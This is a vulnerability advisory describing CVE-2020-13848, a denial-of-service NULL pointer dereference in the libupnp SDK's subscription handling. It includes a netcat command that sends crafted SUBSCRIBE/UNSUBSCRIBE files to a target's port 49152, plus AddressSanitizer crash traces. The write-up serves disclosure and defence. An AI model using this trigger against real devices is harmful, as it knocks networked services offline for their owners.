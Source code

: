 # CVE-2020-13848: Denial of Service in Portable UPnP SDK (aka libupnp)

Portable UPnP SDK (aka libupnp) 1.12.1 and earlier allows remote attackers to cause a denial of service (crash) via a crafted SSDP message due to a NULL pointer dereference in the functions `FindServiceControlURLPath` and `FindServiceEventURLPath` in `genlib/service_table/service_table.c` [1].

## Details
There is a NULL pointer dereference in the function `FindServiceControlURLPath` in `genlib/service_table/service_table.c`.

A segmentation fault occurs if the string `controlURLPath` is NULL. This crash can be triggered by sending a malformed `SUBSCRIBE` or `UNSUBSCRIBE` using any of the attached files.

```
cat <subscribe/unsubscribe>.txt | nc <ip> 49152
```

Compiling the library with ASan enabled, this will result in the following output using subscribe.txt

```
>> AddressSanitizer:DEADLYSIGNAL
=================================================================
==1382600==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000000 (pc 0x7f9314e77878 bp 0x000000000002 sp 0x7f930eef98d0 T6)
==1382600==The signal is caused by a READ memory access.                                                                                                                      
==1382600==Hint: address points to the zero page.
    #0 0x7f9314e77877 in FindServiceControlURLPath src/genlib/service_table/service_table.c:357
    #1 0x7f9314e85b83 in GetDeviceHandleInfoForPath src/api/upnpapi.c:4246
    #2 0x7f9314e7fda8 in gena_process_subscription_renewal_request src/gena/gena_device.c:1464
    #3 0x7f9314e7641b in dispatch_request src/genlib/miniserver/miniserver.c:157
    #4 0x7f9314e7641b in handle_request src/genlib/miniserver/miniserver.c:230
    #5 0x7f9314e6ffca in WorkerThread src/threadutil/ThreadPool.c:576
    #6 0x7f9314e3efb6 in start_thread /build/glibc-suXNNi/glibc-2.29/nptl/pthread_create.c:486
    #7 0x7f9314d702ce in __clone (/lib/x86_64-linux-gnu/libc.so.6+0xfa2ce)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV src/genlib/service_table/service_table.c:357 in FindServiceControlURLPath
Thread T6 created by T0 here:
    #0 0x7f9314ed09b2 in pthread_create (/lib/x86_64-linux-gnu/libasan.so.5+0x399b2)
    #1 0x7f9314e6f97b in CreateWorker src/threadutil/ThreadPool.c:651

==1382600==ABORTING
```

and using unsubscribe.txt

```
>> AddressSanitizer:DEADLYSIGNAL
=================================================================
==1382441==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000000 (pc 0x7f0c2ac29878 bp 0x000000000002 sp 0x7f0c23cf78e0 T8)
==1382441==The signal is caused by a READ memory access.                                                                                                                      
==1382441==Hint: address points to the zero page.
    #0 0x7f0c2ac29877 in FindServiceControlURLPath src/genlib/service_table/service_table.c:357
    #1 0x7f0c2ac37b83 in GetDeviceHandleInfoForPath src/api/upnpapi.c:4246
    #2 0x7f0c2ac32001 in gena_process_unsubscribe_request src/gena/gena_device.c:1577
    #3 0x7f0c2ac2841b in dispatch_request src/genlib/miniserver/miniserver.c:157
    #4 0x7f0c2ac2841b in handle_request src/genlib/miniserver/miniserver.c:230
    #5 0x7f0c2ac21fca in WorkerThread src/threadutil/ThreadPool.c:576
    #6 0x7f0c2abf0fb6 in start_thread /build/glibc-suXNNi/glibc-2.29/nptl/pthread_create.c:486
    #7 0x7f0c2ab222ce in __clone (/lib/x86_64-linux-gnu/libc.so.6+0xfa2ce)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV src/genlib/service_table/service_table.c:357 in FindServiceControlURLPath
Thread T8 created by T0 here:
    #0 0x7f0c2ac829b2 in pthread_create (/lib/x86_64-linux-gnu/libasan.so.5+0x399b2)
    #1 0x7f0c2ac2197b in CreateWorker src/threadutil/ThreadPool.c:651

==1382441==ABORTING
```

This was tested on the current master branch and on release 1.6.6. Earlier versions may also be affected.




## References
[1] CVE-2020-13848 - https://nvd.nist.gov/vuln/detail/CVE-2020-13848

[2] [subscribe.txt](https://github.com/pjlantz/pjlantz.github.io/blob/master/docs/assets/subscribe.txt)

[3] [unsubscribe.txt](https://github.com/pjlantz/pjlantz.github.io/blob/master/docs/assets/unsubscribe.txt)
